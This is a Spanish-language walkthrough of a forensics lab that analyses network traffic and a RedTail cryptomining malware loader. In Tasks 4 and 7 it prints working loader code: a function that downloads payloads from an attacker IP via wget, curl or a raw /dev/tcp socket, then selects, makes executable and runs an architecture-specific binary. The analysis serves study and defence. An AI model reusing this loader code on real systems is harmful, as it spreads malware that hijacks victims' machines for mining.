





Scenario: 

Recently, a user triggered multiple alerts after downloading several potentially unwanted applications (PUAs), prompting concern from the security team. To gain deeper insight into the user's activity, the team began monitoring network traffic from their workstation. Their objective is to assess whether the downloads are linked to more serious malware threats.

-----

<h3 style="color: #9FEF00;"> Task 1. What is the victim's IP address? </h3>

Para esto podemos abrir la sección de estadísticas en wireshark: 



La ip con más comunicaciones es la víctima.

-------

<h3 style="color: #9FEF00;"> Task 2. What is the IP address of the attacker from whom the files were downloaded? </h3>

Bueno, para esto podemos aplicar el siguiente filtro: 

```bash 
┌──(kali㉿kali)-[~/challenges/cuidao]
└─$ tshark -r analisis_zeek/network_capture.pcap "http.request.method == GET"
<SNIP>
  124   6.617110 192.168.1.152 65236 94.156.177.109 80 HTTP 183 GET / HTTP/1.1
  137   9.693148 192.168.1.152 65237 94.156.177.109 80 HTTP 185 GET /sh HTTP/1.1
  187  25.893477 192.168.1.152 65242 94.156.177.109 80 HTTP 188 GET /clean HTTP/1.1
```

Esto es lo más interesante, el resto son cadenas que pueden estar ofuscadas o certificados X.509 codificados(como en OCSP o mecanismos de validación de certificados).

-------

<h3 style="color: #9FEF00;"> Task 3. Which malicious file appears to be the first one downloaded? </h3>

Por el fragmento de la pregunta anterior, vemos que es `sh`. 

--------

<h3 style="color: #9FEF00;"> Task 4.  What is the name of the function that the attacker used to download the payload? </h3>

Para esto, podemos descargar ambos ficheros, `sh` y `clean`, dos scripts escritos en bash.



Un resumen breve del script: 

1. Usa `wget`, `curl` y socket TCP manual para garantizar la obtención de ficheros.
2. Detecta un directorio donde tenga permisos completos y no esté montado con `noexec`.
3. **Ejecución en dos fases**:
   * Un “stager limpio” (`clean`).
   * Un payload principal (`.redtail`) adaptado a la arquitectura.
4. **Limpieza**: elimina los archivos descargados tras su uso.

Esto es característico un **loader de malware**, que prepara el entorno, elige y ejecuta un binario cifrado/firmado para la CPU, ocultando su actividad lo máximo posible.

En este script solo tenemos una función llamada `dlr`: 

```bash 
dlr() {
  wget http://94.156.177.109/$1 || curl -O http://94.156.177.109/$1
  if [ $? -ne 0 ]; then
    # Fallback: descarga vía socket TCP manual
    exec 3<>"/dev/tcp/94.156.177.109/80"
    echo -e "GET /$1 HTTP/1.0\r\nHost: 94.156.177.109\r\n\r\n" >&3
    (while read -r line; do [ "$line" = $'\r' ] && break; done && cat) <&3 >$1
    exec 3>&-
  fi
}
```

Esta función descargar un archivo remoto cuyo nombre se pasa como parámetro $1 (por ejemplo, clean, x86_64, etc.).

Pasos:
    - Intenta con wget.
    - Si falla (||), prueba con curl -O.
    - Si ambos fallan ($? -ne 0), abre un socket TCP directo a 94.156.177.109 en el puerto 80 y emula una petición HTTP GET “a mano”.

------

<h3 style="color: #9FEF00;"> Task 5. Which port does the attacker's server use? </h3>

Por lo que vemos en la pregunta anterior, se abre la conexión por el puerto 80.

-------

<h3 style="color: #9FEF00;"> Task 6. The script checks which directories it can write to by attempting to create test files. What is the size of the second test file? (Size in MB) </h3>

La parte del script que nos interesa es la siguiente: 

```bash 
OK=true
for i in $FOLDERS /tmp /var/tmp /dev/shm; do
  if cd "$i" && touch .testfile \
      && (dd if=/dev/zero of=.testfile2 bs=2M count=1 >/dev/null 2>&1 \
          || truncate -s 2M .testfile2 >/dev/null 2>&1); then
    # Si puede crear y escribir 2 MiB, entonces es apto
    rm -rf .testfile .testfile2
    break
  fi
done
```

Esto trata de encontrar un directorio donde el script pueda:

    - Cambiarse (cd),
    - Crear un archivo pequeño (.testfile),
    - Crear un archivo de 2 MiB (usando dd o truncate).

Las variables:
    - OK=true asume que hay un directorio válido; si ninguno sirve, luego cambiará a false.

-----

<h3 style="color: #9FEF00;"> Task 7. What is the full command that the script uses to identify the CPU architecture? </h3>

Esto lo vemos en el siguiente fragmento: 

```bash 
rm -rf .redtail
if [ $ARCH es x86_64 ]; then
  dlr x86_64 && mv x86_64 .redtail
elif [ $ARCH es i386/486/586 ]; then
  dlr i686 && mv i686 .redtail
elif [ $ARCH es arm64 ]; then
  dlr aarch64 && mv aarch64 .redtail
elif [ $ARCH es armv7 ]; then
  dlr arm7 && mv arm7 .redtail
else
  OK=false
  # Intentos con todos los binarios
  for a in x86_64 i686 aarch64 arm7; do
    dlr $a
    cat $a >.redtail
    chmod +x .redtail
    ./.redtail $1 >/dev/null 2>&1
    rm -rf $a
  done
fi
```

El comando uname -mp en Linux muestra información sobre el tipo de procesador y la arquitectura de la máquina

- -m imprime el nombre de la máquina o arquitectura del sistema
- -p imprime el tipo de procesador

----

<h3 style="color: #9FEF00;"> Task 8. What is the name of the file that is downloaded after the CPU architecture is compared with reference values? </h3>

Esto lo podemos ver en los ficheros descargados, vemos que se trata de una x86_64:



-----

<h3 style="color: #9FEF00;"> Task 9. What is the full command that the attacker used to disable any existing mining service? </h3>

Esto lo vemos en el `clean`, en el siguiente fragmento: 

```bash 
systemctl disable c3pool_miner
systemctl stop c3pool_miner
``` 

> Un mining service (servicio de minería) es un programa en segundo plano (generalmente ejecutado como daemon o servicio del sistema) que realiza minería de criptomonedas, es decir, consume recursos del sistema (CPU, GPU, RAM) para resolver cálculos criptográficos a cambio de una recompensa en criptomonedas.

------

<h3 style="color: #9FEF00;"> Task 10. Apparently, the attacker used a packer to compress the malware. Which version of this packer was used? (Format X.XX)</h3>

Para esto podeos buscar de la siguiente forma: 

```bash 
┌──(kali㉿kali)-[~/challenges/cuidao]
└─$ strings x86_64.bin | grep -i upx
$UPX!H
VupXL
$Info: This file is packed with the UPX executable packer http://upx.sf.net $
$Id: UPX 4.23 Copyright (C) 1996-2024 the UPX Team. All Rights Reserved. $
UPX!
UPX!
``` 

> UPX (Ultimate Packer for eXecutables) es uno de los packers más utilizados del mundo. Cuando UPX comprime un ejecutable, deja firmas claras dentro del binario —incluso si está ofuscado o sin secciones. La mayoría de los binarios empaquetados con UPX contienen la cabecera mágica UPX! (hex: 55 50 58 21)

-----

<h3 style="color: #9FEF00;"> Task 11. What is the entropy value of unpacked malware? </h3>

Primero tenemos que desempaquetar el malware:

```bash 
┌──(kali㉿kali)-[~/challenges/cuidao]
└─$ upx -d x86_64.bin -o x86_64_unpacked
                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2024
UPX 4.2.4       Markus Oberhumer, Laszlo Molnar & John Reiser    May 9th 2024

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
   4674831 <-   1724832   36.90%   linux/amd64   x86_64_unpacked

Unpacked 1 file.
```

Y calculamos la entropia: 

```bash 
┌──(kali㉿kali)-[~/challenges/cuidao]
└─$ ent x86_64_unpacked
Entropy = 6.488449 bits per byte.

Optimum compression would reduce the size
of this 4671408 byte file by 18 percent.

Chi square distribution for 4671408 samples is 41756380.60, and randomly
would exceed this value less than 0.01 percent of the times.

Arithmetic mean value of data bytes is 92.3876 (127.5 = random).
Monte Carlo value for Pi is 3.414057603 (error 8.67 percent).
Serial correlation coefficient is 0.320703 (totally uncorrelated = 0.0).
```

-----

<h3 style="color: #9FEF00;"> Task 12. What is the file name with which the unpacked malware was submitted on VirusTotal? </h3>

Para esto calculamos el hash: 

```bash 
┌──(kali㉿kali)-[~/challenges/cuidao]
└─$ sha256sum x86_64_unpacked
61c128f1e5225e9d230d7fffa66468286c16fe622a7edee661fefe115698656c  x86_64_unpacked
```

lo subimos a virustotal y revisando los nombres, el primero que aparece es el que buscamos, y es el que coincide con el patrón de la posiblre respuesta: 



-----

<h3 style="color: #9FEF00;"> Task 13. What MITRE ATT&CK technique ID is associated with the main purpose of the malware? </h3>

Ya sabemos que se trata de un malware encargado de minar criptomonedas, así que mirando en la sección de `Behavior`



